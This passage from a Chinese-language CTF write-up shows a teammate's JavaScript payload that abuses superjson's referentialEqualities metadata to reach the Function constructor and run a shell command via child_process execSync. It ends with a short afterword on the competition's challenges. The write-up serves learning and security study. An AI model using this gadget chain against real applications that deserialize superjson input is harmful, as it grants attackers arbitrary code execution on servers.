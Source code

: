 比起上面這個，我隊友 pew 的 payload 似乎比較好懂：

``` js
const superjson = require('superjson').default;

Object.freeze(Object.prototype);

javascript = `console.log(process.mainModule.require('child_process').execSync("/readflag").toString())`

var json = JSON.stringify(
    {
        json: {
            real_error: {
                "message": "",
            },
            real_map: [],
            fake_map: [""],
            real_str: "xxd",
            real_arr: [],
            x: javascript,
            js: javascript,
        },
        meta: {
          referentialEqualities: {
            'real_error.toString': ['fake_map.toString'],
            'constructor.constructor': ['fake_map.get'],
            'real_str.replace': ['fake_map.set'],
            'js': ['fake_map.name'],
            'real_arr.constructor.prototype.values': ['fake_map.keys'],
            'real_map.__proto__' : ['fake_map.__proto__'],
            'x': ['fake_map.0']
          },
          values: {
              real_map: [
                  "map"
              ],
              real_error: [
                  "Error"
              ]
          }
        },
    }
)
console.log(json)
console.log("")
```

## 後記

這次的題目都很有趣而且很新穎，例如說 Python 那題只用 decorator 做出任意程式碼執行就很酷，或是 foodAPI 直接考一個 denoDB 0-day，也是滿猛的。
